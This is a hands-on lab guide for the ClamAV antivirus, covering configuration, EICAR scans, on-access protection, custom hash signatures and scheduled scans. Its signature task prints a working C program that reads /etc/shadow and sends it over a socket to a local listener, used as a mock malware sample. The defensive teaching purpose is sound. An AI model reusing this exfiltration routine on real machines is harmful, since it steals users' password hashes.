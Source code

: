 # Endpoint Sec - ClamAV

## Objectives

- Install and configure ClamAV
- Understand virus signature databases
- Perform different types of scans
- Create custom virus definitions
- Implement real-time scanning
- Analyze scan reports
- Automation

## What is ClamAV ?

<img src="./figs/clamav-logo.webp" width="128px" />

An open-source antivirus software toolkit designed for detecting and eliminating malware, viruses, trojans, and other malicious threats. It offers cross-platform support and is widely utilized for email, web, and file scanning. Featuring a powerful command-line interface, it ensures efficient detection through regular database updates and compatibility with various file formats and archives. a complete documention is accessible at: https://docs.clamav.net/

## Instalation & Configuration

ClamAV could be easy installed using linux package managers. To install it follow (I assume you have a debian based destro):

```bash
sudo apt update
sudo apt install clamav clamav-daemon clamtk
```

Verify correct installation

```bash
clamscan --version
freshclam --version
```

## Task 1: Examine config file

1. Examine the main configuration files:

```bash
sudo nano /etc/clamav/clamd.conf
sudo nano /etc/clamav/freshclam.conf
```

2. Document the following settings:

- DatabaseDirectory
- UpdateLogFile
- LogFile
- LogTime
- LogFileMaxSize
- MaxDirectoryRecursion

## Task 2: Basic Operations

### Directory Scanning

1. Create a test directories & donwload ECAR file:

```bash
mkdir -p ~/clam-av-lab/{clean,infected,quarantine}
cd ~/clam-av-lab

wget -P ./infected https://secure.eicar.org/eicar.com
wget -P ./infected https://secure.eicar.org/eicar.com.txt
wget -P ./infected https://secure.eicar.org/eicar_com.zip
```

2. Perform different types of scans:

```bash
# Basic scan
clamscan ~/clam-av-lab/infected/

# Recursive scan with log
clamscan -r ~/clam-av-lab/infected/ -l scan_log.txt

# Move infected files to quarantine
clamscan -r --move=/home/<user>/clam-av-lab/quarantine ~/clam-av-lab/infected/
```

### Real-Time Protection

ClamAV can also run operate automatic scans (called On Access Scanning), to enable it modify damon config:

```bash
sudo nano /etc/clamav/clamd.confcl

# Add/modify these lines, change <user> with your logged in user
OnAccessIncludePath /home/<user>/clam-av-lab
OnAccessPrevention yes
OnAccessExcludeUname clamav

# Restart the daemon
sudo systemctl restart clamav-daemon
```

Now to test, drop the test ECAR file inside the tagret folder. try interacting wth the file, you should get "Operation not permitted" message.

## Taks 3: Custom Signature - Hash-based

For this task, we simulte malware binary, generte a hash and used for detection. Assume the following C code a malware ;)

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <arpa/inet.h>

#define PORT 1998
#define SERVER_IP "127.0.0.1"
#define BUFFER_SIZE 1024

int main() {
    int sock;
    struct sockaddr_in server_addr;
    FILE *shadow_file;
    char buffer[BUFFER_SIZE];

    sock = socket(AF_INET, SOCK_STREAM, 0);
    if (sock < 0) {
        perror("Socket creation failed");
        exit(EXIT_FAILURE);
    }

    server_addr.sin_family = AF_INET;
    server_addr.sin_port = htons(PORT);
    if (inet_pton(AF_INET, SERVER_IP, &server_addr.sin_addr) <= 0) {
        perror("Invalid address/ Address not supported");
        close(sock);
        exit(EXIT_FAILURE);
    }

    if (connect(sock, (struct sockaddr *)&server_addr, sizeof(server_addr)) < 0) {
        perror("Connection failed");
        close(sock);
        exit(EXIT_FAILURE);
    }

    shadow_file = fopen("/etc/shadow", "r");
    if (!shadow_file) {
        perror("Failed to open /etc/shadow");
        close(sock);
        exit(EXIT_FAILURE);
    }

    while (fgets(buffer, BUFFER_SIZE, shadow_file)) {
        if (send(sock, buffer, strlen(buffer), 0) < 0) {
            perror("Send failed");
            fclose(shadow_file);
            close(sock);
            exit(EXIT_FAILURE);
        }
    }

    printf("Contents of /etc/shadow sent successfully.\n");

    fclose(shadow_file);
    close(sock);

    return 0;
}

```

1. compile it using gcc (make sure it is installed): `gcc mal.c -o mal`
2. use clamav's `sigtool` to generate malware hash: `sigtool --md5 mal > mal-sig.hdb`
3. validate is content : `cat mal-sig.hdb`
4. test it: `clamscan -d mal-sig.hdb mal`

But, **what mal.c do ?**

## Taks 3: Automation

I would be beneificiate to automate scanning operations and allow for notifications to sysadmins. To do so:

1. Create an scan autmation script :

```bash
#!/bin/bash
LOG_FILE="/var/log/clamav/scheduled_scan.log"
SCAN_DIR="/home/<user>/clam-av-lab" # change user with the loggin user

echo "Scan started at $(date)" >> $LOG_FILE
clamscan -r --move=/home/<user>/clam-av-lab/quarantine \
    --log=$LOG_FILE $SCAN_DIR
echo "Scan finished at $(date)" >> $LOG_FILE
```

2. Schedule with cron:

```bash
sudo crontab -e

# Run daily scans at 2 AM
0 2 * * * /path/to/scan_script.sh
```

**BONUS**: modify the automation script to send you the scan report to your email box
